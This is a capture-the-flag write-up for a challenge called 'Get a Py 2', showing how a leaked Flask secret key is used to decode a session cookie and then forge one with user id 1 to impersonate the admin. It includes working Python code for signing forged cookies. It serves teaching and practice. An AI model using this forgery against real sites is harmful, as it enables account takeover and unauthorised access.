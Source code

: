 # HackDalton: Get a Py 2 (Writeup)

> Warning! There are spoilers ahead

Upon loading the website, you can register for an account. Once you register for an account and log in, you are sent to a page with a field to order a pie, and text that displays your last order. 

We can use the expoilt that we used in Get a Py 1 to find the new Flask secret key: `b'\xce\x11s\xbcZ\xc1\xa4\x08\x1fX\xf5A!\xa1\xe68`. We can then use the new secret key to decode our session cookie:

```python
import hashlib
from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer


def decode_flask_cookie(secret_key, cookie_str):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(
        secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
    return s.loads(cookie_str)
```
(script inspired by @babldev's gist https://gist.github.com/babldev/502364a3f7c9bafaa6db)

We can find that the session key simply contains a user id, in this example, the cookie's contents are `{'id': 3}`. We can then modify the code above to encode a cookie:

```python
def encode_flask_cookie(secret_key, cookie_str):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(
        secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
    return s.dumps(cookie_str)
```

After replacing our old cookie with a new cookie of id `1` (assuming the admin was the first person to log into the site), we can then view the flag.